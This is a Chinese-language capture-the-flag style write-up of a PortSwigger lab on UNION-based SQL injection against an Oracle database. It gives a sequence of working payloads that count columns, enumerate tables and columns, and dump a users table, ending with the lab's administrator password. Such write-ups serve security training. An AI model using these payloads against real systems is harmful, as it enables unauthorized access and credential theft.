







# Listing the database contents on Oracle databases



### 目標

該購物網站的產品類別篩選器有 SQLi 漏洞，使用 UNION 攻擊來從其他表中獲取資料。

應用程式具有登入功能，資料庫中包含一個存放 usernames 與 passwords 的表，找出這張表的表名與它具有的欄位，然後透過該表的內容來獲得所有使用者的帳號與密碼，並以使用者為 `administrator` 的身份來登入該購物網站。

> [!TIP]
> Hint:
> 
> Oracle 資料庫中，每個 `SELECT` 語句都必須要搭配 `FROM` 與後面指定的表名。然而如果 `UNION SELECT` 攻擊沒有從任何表查詢，仍然需要包含 `FROM` 語句，後面跟著有效的表名。
>
> Oracle 有一個內建表格為 `dual`，即可用在沒有從任何表查詢的狀況。
> 
> 可從 [PortSwigger 網站中的 SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) 中，查找對各種資料庫有什麼不同的寫法。

---

### Solution

隨意選擇一種類別標籤，並使用 `UNION` 語句獲取欄位數量：

```sql
Accessories' UNION SELECT NULL,NULL FROM dual--
```


> 有兩欄位。

將類別清空改為 0，如此只會傳回想要嘗試獲取的資訊，隱藏該類別的文章：

```sql
0' UNION SELECT NULL,NULL FROM dual--
```



---

選擇 `table_name` 取得所有表名：

```sql
0' UNION SELECT NULL,table_name FROM all_tables--
```



一樣有許多表，猜測與嘗試後，在 `USERS_CXGJPQ` 這張表找到欄位有帳號與密碼：

```sql
0' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name='USERS_CXGJPQ'--
```



從表 `USERS_CXGJPQ` 選取帳號與密碼兩欄位：

```sql
0' UNION SELECT USERNAME_TYQQKP,PASSWORD_HAVDJG FROM USERS_CXGJPQ--
```



點選網站有上角的 `My account`，使用剛獲取的憑證進行登入，帳號 `administrator`、密碼 `vgvx3arv1fuo1vbssfa5`：

